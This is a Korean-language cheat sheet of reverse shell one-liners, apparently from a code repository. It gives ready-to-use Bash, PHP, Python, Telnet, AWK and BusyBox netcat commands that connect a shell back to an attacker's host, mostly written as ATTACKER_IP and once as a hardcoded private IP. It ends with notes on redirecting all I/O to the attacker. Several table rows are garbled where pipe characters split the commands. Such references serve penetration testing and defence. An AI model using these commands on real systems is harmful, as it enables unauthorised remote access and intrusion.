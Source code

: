 # 리버스 셸 명령어 정리

## Bash

| 유형      | 명령어                                                             | 설명                                                              |
| --------- | ------------------------------------------------------------------ | ----------------------------------------------------------------- | ------------------------------------------- |
| 기본      | `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`                         | 대화형 셸을 TCP로 리디렉션, 표준 입출력/에러 모두 공격자에게 전달 |
| Read Line | `exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5                         | while read line; do $line 2>&5 >&5; done`                         | 파일 디스크립터 5로 명령어 단위 비대화형 셸 |
| FD 196    | `0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196` | 임의 FD(196) 사용, 표준 입출력/에러 모두 리디렉션                 |
| FD 5      | `bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5`              | FD 5로 표준 입출력/에러 모두 리디렉션                             |

## PHP

| 유형      | 명령어                                                                 | 설명                                                |
| --------- | ---------------------------------------------------------------------- | --------------------------------------------------- |
| exec 함수 | `php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'` | fsockopen으로 소켓 연결, exec로 셸 실행 및 리디렉션 |
| 기타 함수 | `shell_exec`, `system`, `passthru`, `popen`                            | exec와 유사, 각각 출력 방식만 다름                  |

## Python

| 유형       | 명령어                                                                                                                                                                                                                       | 설명                                                  |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| 환경변수   | `export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`  | 환경변수로 IP/포트 지정, 소켓 연결 후 pty로 대화형 셸 |
| subprocess | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` | IPv4 TCP 소켓, dup2로 리디렉션, pty로 대화형 셸       |
| 간단형     | `python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`                                                                                 | 위와 동일, 더 간결                                    |

## 기타

| 도구    | 명령어                                                                          | 설명                                            |
| ------- | ------------------------------------------------------------------------------- | ----------------------------------------------- | -------------------------------------------- | ------------------------ | -------------------------------------------------------------- | ---------------------------------------- |
| Telnet  | `TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF                    | sh 1>$TF`                                       | mkfifo로 파이프 생성, telnet으로 양방향 통신 |
| AWK     | `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" | & s; s                                          | & getline c; if(c){ while ((c                | & getline) > 0) print $0 | & s; close(c); } } while(c != "exit") close(s); }}' /dev/null` | AWK 내장 TCP 기능 활용, 루프/조건문 포함 |
| BusyBox | `busybox nc ATTACKER_IP 443 -e sh`                                              | BusyBox 내장 nc로 -e 옵션 사용, 연결 시 sh 실행 |

---

## 리디렉션 정리

- `>` : 표준 출력(stdout) 리디렉션
- `2>` : 표준 에러(stderr) 리디렉션
- `2>&1` : 표준 에러를 표준 출력과 동일하게 리디렉션 (순서 중요)
- `>&` : Bash에서 표준 출력/에러를 동시에 리디렉션 (예: `>& /dev/tcp/ATTACKER_IP/443`)

### 예시

- `command > file.txt 2>&1` : 표준 출력/에러 모두 file.txt로
- `command >& file.txt` : 위와 동일 (Bash 한정)

---

## 요약

- `>&`는 `2>&1`의 간단 표기법 (Bash 전용)
- 리버스 셸에서 표준 입출력/에러를 모두 공격자에게 전달해야 완전한 양방향 통신 가능
- 복잡한 리디렉션은 공격자와의 완전한 셸 통신을 위해 필수
